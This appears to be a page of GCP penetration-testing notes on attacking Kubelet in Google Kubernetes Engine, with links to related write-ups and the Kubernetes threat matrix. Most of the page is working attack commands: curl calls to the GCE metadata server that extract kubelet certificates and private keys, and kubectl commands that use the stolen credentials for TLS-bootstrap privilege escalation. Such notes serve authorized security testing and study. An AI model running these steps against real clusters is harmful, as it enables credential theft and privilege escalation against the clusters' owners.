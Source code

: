 ## GKE

[https://www.4armed.com/blog/hacking-kubelet-on-gke/](https://www.4armed.com/blog/hacking-kubelet-on-gke/)

[https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/](https://rhinosecuritylabs.com/cloud-security/kubelet-tls-bootstrap-privilege-escalation/)

### Kubernetes Threat Matrix

[https://www.microsoft.com/en-us/security/blog/2020/04/02/attack-matrix-kubernetes/](https://www.microsoft.com/en-us/security/blog/2020/04/02/attack-matrix-kubernetes/)

![Untitled](GCP%20Penetration%20Testing%20Notes%202%20e0f928c1a83c48cf919cc74733148fcb/Untitled%204.png)

## Kubelet

Retrieve `apiserver.crt`, `kubelet.crt`, and `kubelet.key`

```bash
curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep ^KUBELET_CERT | awk '{print $2}' | base64 -d > kubelet.crt
curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep ^KUBELET_KEY | awk '{print $2}' | base64 -d > kubelet.key
curl -s -H 'Metadata-Flavor: Google' 'http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env' | grep ^CA_CERT | awk '{print $2}' | base64 -d > apiserver.crt
```

- use `$KUBERNETES_PORT_443_TCP_ADDR` env variable to find Kubernetes master IP address

### TLS Bootstrapping

TLS bootstrap privesc steps:

![Untitled](GCP%20Penetration%20Testing%20Notes%202%20e0f928c1a83c48cf919cc74733148fcb/Untitled%205.png)

- creds give permissions to the `CertificateSigningRequest` object

List certificate signing request (CSRs) for cluster nodes:

```bash
kubectl **--client-certificate** kubelet.crt **--client-key** kubelet.key **--certificate-authority** apiserver.crt **--server** https://**${**KUBERNETES_PORT_443_TCP_ADDR**}** get certificatesigningrequests
```

Obtain client certificate that kubelet uses for its normal functions:

```bash
kubectl --client-certificate kubelet.crt --client-key kubelet.key --certificate-authority apiserver.crt --server https://${KUBERNETES_PORT_443_TCP_ADDR} get certificatesigningrequests <NODE_NAME> -o yaml
```

- in the output of this command, the certificate is in the `status.certificate` field (base64 encoded)
